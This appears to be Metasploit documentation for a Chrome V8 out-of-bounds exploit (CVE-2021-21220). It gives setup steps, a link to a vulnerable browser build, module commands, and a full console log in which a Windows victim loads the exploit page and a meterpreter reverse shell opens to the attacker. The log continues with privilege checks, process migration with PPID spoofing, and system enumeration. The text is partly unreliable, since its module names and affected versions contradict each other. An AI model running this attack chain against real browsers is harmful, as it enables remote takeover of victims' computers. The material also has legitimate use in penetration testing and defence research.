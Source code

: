 ## Vulnerable Application

This module exploits CVE-2021-21220 an out of bounds access issue in Google Chrome versions before
89.0.4389.128/90.0.4430.72 (64 bit) that was reported as part of Pwn2Own 2021 by Bruno Keith and
Niklas Baumstark of Dataflow Security.

The exploit makes takes advantage of a lack of proper input validation in the V8 engine on x86_x64 builds
of Chrome when handling XOR operations within JIT compiled code. Successful exploitation leads to RCE execution
within the context of the V8 renderer.

Note that as the V8 renderer is sandboxed within typical Chrome setups, the browser must be run without a sandbox by using
the --no-sandbox option for the payload to work correctly.

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms.
However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/beta/90.0.4430.70](https://chromium.cypress.io/win64/beta/90.0.4430.70)

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_simplifiedlowering_overflow`
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options
None

## Scenarios

### Windows 10 and Google Chrome 90.0.4430.0 with --no-sandbox

Start Google Chrome without a sandbox, e.g:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf6 > use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set TARGET 1
TARGET => 1
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > show options

Module options (exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                       hine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.233.206   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows 10 - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)


msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) >
[*] Started reverse TCP handler on 172.17.233.206:4444
[*] Using URL: http://0.0.0.0:8080/F6htJoKY5li
[*] Local IP: http://172.17.233.206:8080/F6htJoKY5li
[*] Server started.
[*] 172.17.236.178   chrome_cve_2021_21220_v8_insufficient_validation - Sending /F6htJoKY5li to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.0 Safari/537.36
[*] Sending stage (200262 bytes) to 172.17.236.178
[*] Meterpreter session 1 opened (172.17.233.206:4444 -> 172.17.236.178:65165) at 2021-04-27 13:19:35 -0500

msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/migrate
[-] No results from search
[-] Failed to load module: post/windows/migrate
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/manage/migrate
msf6 post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            no        Kill original process for the session.
   NAME                        no        Name of process to migrate to.
   PID        0                no        PID of process to migrate to.
   PPID       0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
                                         .
   PPID_NAME                   no        Name of process for PPID spoofing when creating a new process.
   SESSION                     yes       The session to run this module on.
   SPAWN      true             no        Spawn process to migrate to. If set, notepad.exe is used.

msf6 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/migrate) > run

[*] Running module against DESKTOP-KUO5CML
[*] Current server process: chrome.exe (10116)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 8732
[+] Successfully migrated into process 8732
[*] Post module execution completed
msf6 post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 8732
meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
